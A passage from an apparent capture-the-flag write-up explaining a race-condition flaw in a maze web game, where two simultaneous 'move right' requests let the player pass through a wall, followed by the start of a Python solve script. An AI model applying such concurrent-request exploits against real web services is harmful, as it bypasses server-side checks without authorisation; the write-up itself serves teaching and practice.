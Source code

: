 Consider the following maze where we can only move `left` or `right`:

```
#######
#.@#..#
#######
```

It is possible to **force the player to move to the `right` side despite there's a wall**? The answer is yes.

To do so, we can:

1. **Player moves to `left`**, so **the restricted direction will be `right`** instead of `left`
> ```
> #######
> #@.#..#
> #######
> ```
2. Now **send 2 move `right` requests at the same time**
3. The player's position will be at the center wall
> ```
> #######
> #..@..#
> #######
> ```

This is because in step 2, the data fetched from the database are `left`. Since the restricted directions are `left`, the application will happily allow the player to move to `right` direction twice, thus wining the race condition.

## Exploitation

Based on the above information, we can write a solve script to get the flag!

```python
#!/usr/bin/env python3
import requests
import aiohttp
import asyncio
import os
import re
from bs4 import BeautifulSoup

class Solver:
    MOVE_STEPS = 2

    def __init__(self, baseUrl):
        self.baseUrl = baseUrl
        self.MOVE_PLAYER_ENDPOINT = '/move'
        self.MAZE_SIZE = 35
        self.FLAG_FORMAT = re.compile('(ictf\{.*?\})')

    async def createNewMaze(self):
        mazeId = requests.get(self.baseUrl, allow_redirects=False).headers.get('Location').strip('/')
        return mazeId

    async def getMaze(self, mazeId):
        url = f'{self.baseUrl}/{mazeId}'
        responseText = requests.get(url).text
        maze = BeautifulSoup(responseText, 'html.parser').find('code').text.strip()
        maze2DList = [list(row) for row in maze.split('\n') if row]

        os.system('clear')
        print(f'[*] Maze ID: {mazeId} | Current maze:\n{maze}')
        return maze2DList
```